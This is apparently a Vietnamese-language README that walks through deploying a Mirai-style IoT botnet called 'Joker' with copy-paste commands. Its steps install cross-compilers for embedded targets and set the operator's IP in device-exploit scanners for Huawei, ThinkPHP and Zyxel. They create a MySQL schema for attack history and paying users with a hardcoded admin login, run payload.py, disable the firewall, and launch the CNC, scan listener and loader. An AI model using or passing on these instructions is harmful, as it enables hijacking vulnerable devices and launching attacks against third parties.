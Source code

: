 - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt mọi thứ: Bạn cần Centos 6 cho việc này
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
yum update -y; yum install epel-release -y; yum groupinstall "Development Tools" -y; yum install gmp-devel -y; ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10; yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
rm -rf /usr/local/go; wget https://dl.google.com/go/go1.10.3.linux-amd64.tar.gz; sha256sum go1.10.3.linux-amd64.tar.gz; sudo tar -C /usr/local -xzf go1.10.3.linux-amd64.tar.gz; export PATH=$PATH:/usr/local/go/bin; source ~/.bash_profile; rm -rf go1.10.3.linux-amd64.tar.gz
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
mkdir /etc/xcompile; cd /etc/xcompile; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2; wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2; wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2; tar -jxf cross-compiler-i586.tar.bz2; tar -jxf cross-compiler-m68k.tar.bz2; tar -jxf cross-compiler-mips.tar.bz2; tar -jxf cross-compiler-mipsel.tar.bz2; tar -jxf cross-compiler-powerpc.tar.bz2; tar -jxf cross-compiler-sh4.tar.bz2; tar -jxf cross-compiler-sparc.tar.bz2; tar -jxf cross-compiler-armv4l.tar.bz2; tar -jxf cross-compiler-armv5l.tar.bz2; tar -jxf cross-compiler-armv6l.tar.bz2; tar -jxf cross-compiler-armv7l.tar.bz2; rm -rf *.tar.bz2; mv cross-compiler-i586 i586; mv cross-compiler-m68k m68k; mv cross-compiler-mips mips; mv cross-compiler-mipsel mipsel; mv cross-compiler-powerpc powerpc; mv cross-compiler-sh4 sh4; mv cross-compiler-sparc sparc; mv cross-compiler-armv4l armv4l; mv cross-compiler-armv5l armv5l; mv cross-compiler-armv6l armv6l; mv cross-compiler-armv7l armv7l; cd /tmp; wget https://storage.googleapis.com/golang/go1.8.3.linux-amd64.tar.gz -q; tar -xzf go1.8.3.linux-amd64.tar.gz; mv go /usr/local/go; cd ~/
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Thay đổi IP:

```/bot/huawei.c``` Tìm quên

```/bot/thinkphp.c``` Tìm quên

```/bot/zyxel_scanner.c``` Tìm quên

```/bot/includes.h```  (4 địa điểm)

```/cnc/main.go``` 

```/dlr/main.c```

```/loader/src/main.c``` (Dòng 30, 31, Hai lần trên 42)

```/scanListen.go```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt mysql tạo mật khẩu root
Sao chép & Dán này: 
```
service mysqld start; mysql_secure_installation
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Đăng nhập vào mysql:

Sao chép & Dán này:  
```
mysql -u root -p
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này:
```
CREATE DATABASE Joker;
use Joker;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
INSERT INTO users VALUES (NULL, 'clown', 'clown1337', 0, 0, 0, 0, -1, 1, 30, '');

CREATE TABLE `logins` (
  `id` int(11) NOT NULL,
  `username` varchar(32) NOT NULL,
  `action` varchar(32) NOT NULL,
  `ip` varchar(15) NOT NULL,
  `timestamp` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP
) ENGINE=InnoDB DEFAULT CHARSET=latin1;
exit;
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
cd ~/; chmod 0777 * -R; sh build.sh
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sao chép & Dán này: 
```
python payload.py; service httpd restart 
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
iptables -F;service iptables stop 
```
```
service httpd restart  
```
```
service mysqld restart
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
```
nano /usr/include/bits/typesizes.h
```
cuộn xuống và chỉnh sửa 1024 thành 999999
SAU ĐÓ LƯU BẰNG: ctrl X rồi Y
Sao chép & Dán 
```
ulimit -n999999; ulimit -u999999; ulimit -e999999
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
cd ~/
screen -S cnc ./cnc
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
cd loader/
screen -S rep ./scanListen 
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
screen -S loader
./run.sh
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
